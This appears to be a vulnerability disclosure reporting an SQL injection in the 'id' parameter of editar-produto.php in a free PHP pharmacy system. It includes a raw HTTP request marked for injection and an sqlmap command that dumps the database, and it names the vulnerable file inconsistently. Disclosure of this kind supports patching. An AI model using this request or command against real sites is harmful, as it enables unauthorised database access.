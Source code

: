 # farmacia-in-php has sql injection vulnerability

## supplier
https://code-projects.org/farmacia-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
editar-produto.php
## describe
There is an unauthorized SQL injection vulnerability in  cupon-fiscal.php of farmacia-in-php-system.

Control parameter: **$GET['id']**

 The information of the database can be obtained without authorization, and arbitrary commands may be executed. 



## code analysis

The **$_GET['id']** parameter in editar-produto.php is controlled and is directly carried into the SQL statement for execution, resulting in SQL injection.

![image-20241113142150613](https://github.com/user-attachments/assets/8a465118-a43e-4db0-97ac-b9fbac718554)

## POC

```
GET /editar-produto.php?id=2* HTTP/1.1
Host: farmacia
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=3hnve2b8nf9g557qpdoel9u2ro
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

save as 1.txt

Get Databases: farmacia

```
python sqlmap.py -r 1.txt
```

![image-20241113141710432](https://github.com/user-attachments/assets/e88cd7a1-8ee8-455c-8499-470917816905)